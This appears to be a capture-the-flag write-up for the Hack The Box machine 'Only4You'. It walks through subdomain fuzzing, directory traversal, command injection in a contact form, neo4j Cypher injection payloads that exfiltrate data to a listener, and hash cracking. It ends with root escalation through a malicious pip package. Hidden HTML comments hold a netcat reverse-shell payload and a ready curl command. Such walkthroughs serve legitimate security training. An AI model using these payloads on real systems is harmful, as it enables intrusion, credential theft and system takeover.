



<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** `10.10.11.210 only4you.htb`

****nmap scan: TCP/IP****

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e883e0a9fd43df38198aaa35438411ec (RSA)
|   256 83f235229b03860c16cfb3fa9f5acd08 (ECDSA)
|_  256 445f7aa377690a77789b04e09f11db80 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://only4you.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* web server redirect host `only4you.htb`

<div style="max-height: 500px; overflow: hidden; position: relative; margin-bottom: 20px;">
  <a href="screenshots/http-only4you.htb.png">
    
  </a>
  <div style="position: absolute; right: 20px; top: 475px"><a href="screenshots/http-only4you.htb.png"><i>Click for full image</i></a></div>
</div>

<!--  -->

`ffuf` found a vHost -> beta.only4you.htb

```bash
❯ ffuf -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.only4you.htb" -u "http://10.129.210.143" -ac -ic -t 100

... [snip] ...

[Status: 200, Size: 2191, Words: 370, Lines: 52, Duration: 385ms]
    * FUZZ: beta
```


* There is a contact forum in the main domain `only4you.htb/#contact` showing "You are not authorized!" when sending message.
* Main map is a flask python app, based on the error return in the session token. 


* Beta app contains the app source code -> `beta.only4you.htb/source`
* few functionality in the beta app for processing image with file upload

<div style="display:flex;">
  
  <hr style="border:none; border-right: 1px solid black; height: auto; margin: auto;" />
  
</div>

# Foothold

## Directory Traversal

After uploading image, user get redirect to `/list` endpoint, where we can download resized or convert image in different sizes.


When clicking on download button, App sends a POST request to `/download` endpoint with `image` parameter containing image filename with is vulnerable for directory traversal.



If we check this source code, app is not properly sensitizing input in `beta/app.py`


<!-- /var/log/nginx/access.log -->

Get the location for web apps sources from nginx web server config -> `/etc/nginx/sites-available/default` 


```
/var/www/only4you.htb
/var/www/beta.only4you.htb
```

## Command Injection

Fuzzing for files in main app directory for that contact forum source code -> `/var/www/only4you.htb/form.py`


In the source, there is a command injection, because app is extracting domain from email address and running `dig` on it.
```py
import smtplib, re
from email.message import EmailMessage
from subprocess import PIPE, run
import ipaddress

def issecure(email, ip):
	if not re.match("([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+(\.[A-Z|a-z]{2,})", email):
		return 0
	else:
		domain = email.split("@", 1)[1]
		result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
		output = result.stdout.decode('utf-8')
		if "v=spf1" not in output:
			return 1

... [snip] ...
```

```py
>>> import re
>>> email = "test@test.com|id"
>>> match = re.match("([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+(\.[A-Z|a-z]{2,})", email)
>>> bool(domain)
True
>>> match.group(0)
'test@test.com|id'
>>> domain = email.split("@", 1)[1]
>>> domain
'test.com|id'
```
<!--Payload

a@b.com|rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.2 4141 >/tmp/f

a%40b.com%7Crm+%2Ftmp%2Ff%3Bmkfifo+%2Ftmp%2Ff%3Bcat+%2Ftmp%2Ff%7Csh+-i+2%3E%261%7Cnc+10.10.14.2+4141+%3E%2Ftmp%2Ff

-->


<!--Copy/Paste

curl -X POST \
    --data-binary $'name=test&email=a%40b.com%7Crm+%2Ftmp%2Ff%3Bmkfifo+%2Ftmp%2Ff%3Bcat+%2Ftmp%2Ff%7Csh+-i+2%3E%261%7Cnc+10.10.14.2+4141+%3E%2Ftmp%2Ff&subject=test&message=test' \
    $'http://only4you.htb/'

-->

## Lateral movement

Few users on the box
```bash
╔══════════╣ Users with console
dev:x:1001:1001::/home/dev:/bin/bash
john:x:1000:1000:john:/home/john:/bin/bash
neo4j:x:997:997::/var/lib/neo4j:/bin/bash
root:x:0:0:root:/root:/bin/bash
```

There are few local services running on port 8001, 3000
```bash
(remote) www-data@only4you:/tmp$ ss -lntp
LISTEN         0              4096                              127.0.0.1:3000                         0.0.0.0:*
LISTEN         0              2048                              127.0.0.1:8001                         0.0.0.0:*
LISTEN         0              50                       [::ffff:127.0.0.1]:7474                               *:*
```

Forward port 8001,3000,7474 to access them from remote machine.
```bash
./socat TCP-LISTEN:18001,fork TCP:127.0.0.1:8001 &
./socat TCP-LISTEN:13000,fork TCP:127.0.0.1:3000 &
./socat TCP-LISTEN:17474,fork TCP:127.0.0.1:7474 &
```

<div style="display:flex;">
  
  <hr style="border:none; border-right: 1px solid black; height: auto; margin: auto;" />
  
  <hr style="border:none; border-right: 1px solid black; height: auto; margin: auto;" />
  
</div>

Got sccess to dashboard using default creds `admin:admin` on internal_app PORT 8001


### neo4j Cypher Injection

* https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j#extracting-information
* https://pentester.land/blog/cypher-injection-cheatsheet/


Extracting Information about Server Version
```sql
' OR 1=1 WITH 1 as a  CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://127.0.0.1:8000/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 // 
```

Extracting Information of labels
```sql
' OR 1=1 WITH 1 as a  CALL db.labels() YIELD label LOAD CSV FROM 'http://127.0.0.1:8000/?label=' + label as l RETURN 0 as _0 // 
```

Extracting Information of label's properties
```sql
' OR 1=1 WITH 1 as a MATCH (u:user) UNWIND keys(u) as p LOAD CSV FROM 'http://127.0.0.1:8000/?' + p +'='+toString(u[p]) as l RETURN 0 as _0 // 
```

```bash
admin:8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918
john:a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6
```

Crack password hashes using `john`
```bash
❯ john hashes -w=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256

... [snip] ...

❯ john hashes --show --format=Raw-SHA256
admin:admin
john:ThisIs4You

2 password hashes cracked, 0 left
```

With "john" creds we can login to "Gogs" instance on port 3000.


But same creds also worked in ssh login.

# Privesc

## pip3 as root

And user "john" can run `/usr/bin/pip3` as root.
```bash
john@only4you:~$ sudo -l
Matching Defaults entries for john on only4you:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on only4you:
    (root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz
```

This command is download tar archive using pip from local "Gogs" instance.

And with "john" creds, we can upload a python package with reverse shell on "Gogs" instance and trigger it while download it using pip command.

Here is a blog post talking about this exploit -> https://embracethered.com/blog/posts/2022/python-package-manager-install-and-download-vulnerability/

And here is a demo project for building pip package -> https://github.com/wunderwuzzi23/this_is_fine_wuzzi/

Download the git repo, and modify `RunCommand()` function from "setup.py" and put system command.

```py
import os

def RunCommand():
    print("Hello World!")
    os.system("chmod +s /bin/bash")
```

And build the package. If "build" module is not installed, first you'll need to install it using `pip install build`
```bash
python -m build
```

After Successfully built, it generate 2 file in `./dist` directory, `this_is_fine_wuzzi-0.0.1.tar.gz` and `this_is_fine_wuzzi-0.0.1-py3-none-any.whl`

Upload tar.gz archive in the john's Test repo.


* Before uploading, Change "Test" repo Visibility setting and uncheck private repo option. 

```bash
sudo /usr/bin/pip3 download http://127.0.0.1:3000/john/Test/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
```


